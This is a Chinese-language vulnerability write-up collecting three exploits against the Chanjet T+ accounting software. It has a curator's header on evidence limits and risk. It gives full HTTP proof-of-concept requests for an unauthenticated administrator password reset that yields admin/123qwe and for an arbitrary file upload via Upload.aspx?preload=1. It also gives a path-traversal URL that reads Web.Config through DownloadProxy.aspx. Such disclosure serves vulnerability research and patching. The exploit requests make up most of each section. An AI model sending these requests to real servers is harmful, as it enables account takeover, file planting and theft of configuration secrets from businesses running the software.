








# 畅捷通T+ 密码重置/SetupAccount上传/DownloadProxy读取集合

## 条目说明

- 对象与具体问题：畅捷通T+；密码重置/SetupAccount上传/DownloadProxy读取集合
- 版本、配置及部署条件：<=17.x只在上传段，不应提升为全文版本
- 认证与权限前提：密码重置含会话；上传preload=1
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 上传multipart丢name/filename，纯文本回读不能证明控制服务器
- 更改管理员密码是明显副作用；哈希/编码算法缺说明；缺修复

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tz54n106AAmbCdASmyn9Wg)


 **文章声明**

  

安全技术类文章仅供参考，此文所提供的信息仅针对漏洞靶场进行渗透，未经授权请勿利用文章中的技术手段对任何计算机系统进行入侵操作。

本文所提供的工具仅用于学习，禁止用于其他目的，推荐大家在了解技术原理的前提下，更好的维护个人信息安全、企业安全、国家安全。  

  

用友 畅捷通 T+ RecoverPassword.aspx 管理员密码修改漏洞
----------------------------------------

#### 一、漏洞描述

用友 畅捷通 T+ RecoverPassword.aspx 存在未授权管理员密码修改漏洞，攻击者可以通过该漏洞修改管理员账号密码登录后台

#### 二、漏洞影响

用友 畅捷通

#### 三、漏洞复现

访问首页显示如下



访问下列地址查看是否存在漏洞

```
http://xx.xx.xx.xx/tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx
```



可以看到重置密码仅需 pwdNew 参数

漏洞利用 poc 如下

```http
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd  HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=gp3mxvri3leqbqazlatfx5jg
Content-Length: 49

{
"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"
}
```

> 请求长度说明：原资料 Content-Length 为 49；保留原始标头；其数值未据实际请求体重新计算或验证。



重置后的系统管理员账号密码为 admin/123qwe



用友 畅捷通 T+ Upload.aspx 任意文件上传漏洞
------------------------------

#### 一、漏洞描述

用友 畅捷通 T+ Upload.aspx 接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证并进行文件上传，达到获取服务器权限的目的  

#### 二、漏洞影响

```
用友 畅捷通T+ <= 17.x
```

#### 三、漏洞复现

首先访问下列地址查看判断漏洞是否存在

```
http://xx.xx.xx.xx/tplus/SM/SetupAccount/Upload.aspx?preload=1
```



漏洞利用 poc 如下

```http
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 188
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysHT4cEvOAWALSZEv
Origin: null
Upgrade-Insecure-Requests: 1

------WebKitFormBoundarysHT4cEvOAWALSZEv
Content-Disposition: form-data; 
Content-Type: image/jpeg

aaaa
------WebKitFormBoundarysHT4cEvOAWALSZEv--
```

> 请求长度说明：原资料 Content-Length 为 188；保留原始标头；其数值未据实际请求体重新计算或验证。



直接访问写入的文件

```
http://xx.xx.xx.xx/tplus/SM/SetupAccount/aaaa.txt
```



用友 畅捷通 T+ DownloadProxy.aspx 任意文件读取漏洞
-------------------------------------

#### 一、漏洞简介

用友 畅捷通 T+ DownloadProxy.aspx 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件  

#### 二、漏洞影响

用友 畅捷通  

#### 三、漏洞复

#### 存在漏洞的地址

```
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
